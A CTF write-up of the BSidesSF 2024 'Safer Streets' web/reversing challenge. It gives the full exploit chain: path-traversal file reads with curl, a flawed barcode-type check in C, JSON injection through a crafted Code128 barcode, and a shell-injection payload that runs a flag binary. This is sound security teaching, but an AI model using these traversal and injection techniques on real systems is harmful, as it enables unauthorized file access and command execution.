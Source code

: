 ```yaml
---
title: 'BSidesSF 2024 Writeups: Safer Streets (Web / reversing)'
author: ron
layout: post
categories:
- bsidessf-2024
- ctfs
permalink: "/2024/bsidessf-2024-writeups-safer-streets-web-reversing-"
date: '2024-05-05T12:59:54-07:00'

---
```


This is a write-up for [Safer Streets](https://github.com/BSidesSF/ctf-2024-release/tree/main/safer-streets). I apparently wrote this in more "note to self" style, not blog style, so enjoy!

<!--more-->

First, browse the application. You should be able to create an error:

```
$ curl 'http://localhost:8080/display?name=test'
Error in script /app/server.rb: No such file or directory @ rb_sysopen - /app/data/test
```

Note that has a `image/jpeg` content-type, so it might confuse the browser.

That issue grants access to two primitives:

a) Read any file via path traversal

b) The full path to the server

For example:

```bash
$ curl -s 'http://localhost:8080/display?name=../server.rb' | head -n20
require 'json'
require 'sinatra'
require 'pp'
require 'singlogger'
require 'open3'

::SingLogger.set_level_from_string(level: ENV['log_level'] || 'debug')
LOGGER = ::SingLogger.instance()

# Ideally, we set all these in the Dockerfile
set :bind, ENV['HOST'] || '0.0.0.0'
set :port, ENV['PORT'] || '8080'

SAFER_STREETS_PATH = ENV['SAFER_STREETS'] || '/app/safer-streets'

SCRIPT = File.expand_path(__FILE__)

LOGGER.info("Checking for required binaries...")
if File.exist?(SAFER_STREETS_PATH)
  LOGGER.info("* Found `safer-streets` binary: #{ SAFER_STREETS_PATH }")
[...]
```

You can grab the `safer-streets` binary as well:

```bash
$ curl -s 'http://localhost:8080/display?name=../../../app/safer-streets' | file -
/dev/stdin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fa512a55e0fbc8c4ad80483379826183f29ce161, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Inspecting the Ruby code shows an shell-injection issue if you control the output of `safer-streets`:

```bash
system("/usr/bin/report-infraction --node='#{result['node']}' --img='#{photo}'")
```

You can reverse or mess with the binary to discover that it's looking for an image file parameter:

```bash
$ safer-streets upc.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104"
}
```

But it won't work on non-UPC codes. I generated a barcode using [Code128](https://github.com/fhunleth/code128), then tried to decode it:

```bash
$ ./code128png exploit.png 'TEST CODE128'

$ file exploit.png 
exploit.png: PNG image data, 176 x 40, 1-bit grayscale, non-interlaced

$ safer-streets ./exploit.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
Invalid plate type: CODE-128!
```

But the logic is actually faulty; here's the C code:

```c
    zbar_symbol_type_t typ = zbar_symbol_get_type(sym);

    for (; sym; sym = zbar_symbol_next(sym)) {
      // unsigned len         = zbar_symbol_get_data_length(sym);
      if (typ == ZBAR_PARTIAL)
        continue;

      if(strcmp(zbar_get_symbol_name(typ), "EAN-13")) {
        fprintf(stderr, "Invalid plate type: %s!\n", zbar_get_symbol_name(typ));
        exit(1);
      }

      printf("%s", zbar_symbol_get_data(sym));
    }
```

Note that the `typ` check is outside the loop, which means if you have multiple barcodes they'll get concatenated (I hinted at that in one of the preview images by having two UPC codes) (it also needs to be bigger):

```bash
$ mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png

$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104TESTCODE128"
}
```

Using that technique, you can do some JSON injection to add an extra node field:

```bash
$ ./code128png exploit.png 'test", "node": "hi' && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Which will mess up the parsing:

```bash
$ ./safer-streets combined.png 
{
  "node": "52d11b6dba5e",
  "speed": "-1",
  "plate": "0123456789104test","node":"hi"
}
```

With `jq`, note that we can control `"hi"`:

```bash
$ ./safer-streets combined.png  | jq
{
  "node": "hi",
  "speed": "-1",
  "plate": "0123456789104test"
}
```

That, with the shell injection we mentioned above, we can create ourselves a payload:

```bash
./code128png exploit.png "test\", \"node\": \"hi'; /home/ctf/print-flag > /tmp/flag.txt; #" && mogrify -resize '200%x200%' exploit.png && montage -tile 1x2 -geometry +8+8 exploit.png upc.png combined.png
```

Then submit that and grab the flag:

```bash
$ curl -F "photo=@./combined.png" http://localhost:8080/upload
$ curl 'http://localhost:8080/display?name=../../../../tmp/flag.txt'
CTF{show-me-your-best-images}
```
